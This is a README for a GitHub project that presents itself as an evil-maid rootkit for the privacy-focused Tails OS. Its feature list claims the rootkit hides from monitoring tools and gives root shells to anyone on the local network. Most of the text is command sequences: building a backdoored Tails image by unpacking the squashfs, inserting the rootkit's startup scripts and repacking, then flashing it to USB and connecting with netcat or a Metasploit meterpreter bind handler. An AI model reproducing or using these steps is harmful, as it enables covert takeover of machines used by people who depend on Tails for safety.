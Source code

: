 # Tails_or_Jails

## An evil-maid rootkit for Tails OS

<!-- DESCRIPTION -->
## Description:

An evil-maid rootkit is a type of stealthy malware that is physically installed on a device, by an attacker with temporary access. The term comes from the idea that even a hotel maid—or any unauthorized person—could install it while the owner is away. This rootkit is designed to compromise system security at a deep level, often targeting bootloaders, firmware, or encryption mechanisms to intercept passwords, decrypt sensitive data, or install backdoors for remote access.

## Disclaimer: 

By using this tool, you agree to use it solely for lawful purposes and not for any illegal activities. The developer disclaims any responsibility for misuse of the tool and any consequences that may arise from such actions. It is your responsibility to ensure that your use of this tool complies with all applicable laws and regulations.

<!-- FEATURES -->
## Features:

- No signs of compromise

- Hides itself from file manager, task manager and network monitoring tools

- Persistent remote access with highest privileges

- Everyone on local network can control the system by connecting to machine's ip address (port 4444 for root, port 4445 for fallback user shell and port 4446 for root meterpreter)

<!-- BUILD -->
## Build it yourself:
      
    git clone https://github.com/umutcamliyurt/Tails_or_Jails.git
    cd Tails_or_Jails/
    wget https://download.tails.net/tails/stable/tails-amd64-6.11/tails-amd64-6.11.img
    mv tails-amd64-6.11.img tails-rootkit-amd64-6.11.img
    sudo losetup -Pf tails-rootkit-amd64-6.11.img
    sudo mount /dev/loop0p1 /mnt
    mkdir ~/filesystem
    mkdir ~/img_mount
    sudo unsquashfs -f -d ~/img_mount /mnt/live/filesystem.squashfs
    sudo cp -r src/* ~/img_mount/

Open another terminal and enter:

    sudo mount --types proc /proc ~/img_mount/proc
    sudo mount --rbind /sys ~/img_mount/sys
    sudo mount --rbind /dev ~/img_mount/dev
    sudo mount --rbind /dev/pts ~/img_mount/dev/pts
    sudo chroot ~/img_mount /bin/bash
    sudo chmod a+rx /.iptables.sh /.startup.sh /.startup_fallback.sh /.system_startup.sh
    exit
    sudo umount ~/img_mount/proc
    sudo umount ~/img_mount/sys
    sudo umount ~/img_mount/dev/pts
    sudo umount ~/img_mount/dev

Finally build the image:
    
    sudo mksquashfs ~/img_mount ~/filesystem/filesystem.squashfs -comp zstd -Xcompression-level 3 -b 1M -processors 6
    sudo cp ~/filesystem/filesystem.squashfs /mnt/live/
    sudo umount /mnt
    sudo losetup -D

<!-- INSTALLATION -->
## Installation:

[Download Tails_or_Jails 6.11 USB image](https://github.com/umutcamliyurt/Tails_or_Jails/releases) (Skip this if you built it yourself) 
       
    sudo apt-get update
    sudo apt install gnome-disk-utility netcat

  **Plug in the USB stick on which you want to install Tails_or_Jails.**

  ![gnome_disks_drive](gnome_disks_drive.png)

  1. A new drive appears in the left pane. Click on it.

  2. Click on the Drive Options button in the title bar and choose **Restore Disk Image.**

  ![gnome_disks_menu](gnome_disks_menu.png)

  3. In the Restore Disk Image dialog, click on the file selector button.

  4. Choose the USB image that you downloaded earlier.

  5. Click the Start Restoring button.

<!-- USAGE -->
## Usage:

**Make another computer boot from this USB stick.**

**Option 1:** On your computer run `nc (target_ip) 4444`

**Option 2:** Use Metasploit Framework

    msfconsole
    use exploit/multi/handler
    set payload linux/x86/meterpreter/bind_tcp
    set RHOST (target_ip)
    set LPORT 4446
    exploit


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
